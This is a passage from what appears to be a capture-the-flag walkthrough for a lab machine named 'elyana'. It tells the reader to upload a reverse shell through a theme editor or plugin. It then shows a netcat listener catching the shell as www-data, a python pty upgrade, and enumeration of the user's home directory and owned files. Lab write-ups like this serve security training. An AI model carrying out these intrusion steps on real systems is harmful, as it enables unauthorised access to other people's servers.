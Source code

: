 If you tried to ssh with those I am so sorry

there is more job to do as it seems

Upload a classic reverse shell in theme editor 

or use a plugin...anyway you want, get a shell

```
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 33828
Linux elyana 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:53:26 up 24 min,  0 users,  load average: 0.00, 0.04, 0.30
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
bash-4.4$ 

```
Back to business! 

```
bash-4.4$ ls -al
ls -al
total 48
drwxr-xr-x 6 elyana elyana 4096 Oct  7  2020 .
drwxr-xr-x 3 root   root   4096 Oct  5  2020 ..
-rw------- 1 elyana elyana 1632 Oct  7  2020 .bash_history
-rw-r--r-- 1 elyana elyana  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 elyana elyana 3771 Apr  4  2018 .bashrc
drwx------ 2 elyana elyana 4096 Oct  5  2020 .cache
drwxr-x--- 3 root   root   4096 Oct  5  2020 .config
drwx------ 3 elyana elyana 4096 Oct  5  2020 .gnupg
drwxrwxr-x 3 elyana elyana 4096 Oct  5  2020 .local
-rw-r--r-- 1 elyana elyana  807 Apr  4  2018 .profile
-rw-r--r-- 1 elyana elyana    0 Oct  5  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 elyana elyana   59 Oct  6  2020 hint.txt
-rw------- 1 elyana elyana   61 Oct  6  2020 user.txt

bash-4.4$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
bash-4.4$ cat hint.txt
cat hint.txt
Elyana's user password is hidden in the system. Find it ;)

```
nieh!

```
bash-4.4$ find / -user elyana 2>/dev/null
find / -user elyana 2>/dev/null
/home/elyana
/home/elyana/.local
/home/elyana/.local/share
/home/elyana/.cache
/home/elyana/user.txt
/home/elyana/.gnupg
/home/elyana/.bash_logout
/home/elyana/hint.txt
/home/elyana/.bash_history
/home/elyana/.profile
/home/elyana/.sudo_as_admin_successful
/home/elyana/.bashrc
```